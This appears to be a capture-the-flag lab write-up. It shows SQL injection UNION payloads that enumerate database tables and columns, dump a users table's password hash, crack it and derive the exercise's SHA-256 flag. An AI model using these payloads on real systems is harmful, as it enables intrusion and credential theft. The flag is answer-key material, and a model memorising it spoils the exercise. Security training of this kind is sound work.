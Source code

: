 --> 1 or 1 = 1 UNION SELECT t.TABLE_NAME, t.TABLE_ROWS FROM information_schema.TABLES AS t

TABLE_SCHEMA  -- TABLE_NAME  --  TABLE_ROWS
                    users           4
                    guestbook       1
                    list_images     5
                    vote_dbs        5
                    db_default      2


--> 1 or 1 = 1 UNION SELECT t.TABLE_NAME, t.COLUMN_NAME FROM information_schema.COLUMNS AS t 

guestbook : id_comment -- comment -- name .

list_images : id -- url -- title -- comment .

vote_dbs : vote -- nb_vote -- subject .

db_default : id -- username -- password .

users :  user_id  -- first_name -- last_name -- town -- country -- planet -- Commentaire -- 
countersign.


--> 1 or 1 = 1 UNION SELECT t.last_name, t.countersign FROM users AS t

ID: 1 or 1 = 1 UNION SELECT t.last_name, t.countersign FROM users AS t 
First name: GetThe
Surname : 5ff9d0165b4f92b14994e5c685cdce28


--> 1 or 1 = 1 UNION SELECT t.last_name, t.Commentaire FROM users AS t 

ID: 1 or 1 = 1 UNION SELECT t.last_name, t.Commentaire FROM users AS t 
First name: GetThe
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !

user_id : 5
first_name : Flag
last_name : GetThe
town : 42
country : 42
planet : 42
Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28

5ff9d0165b4f92b14994e5c685cdce28 => md5 => FortyTwo => fortytwo => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5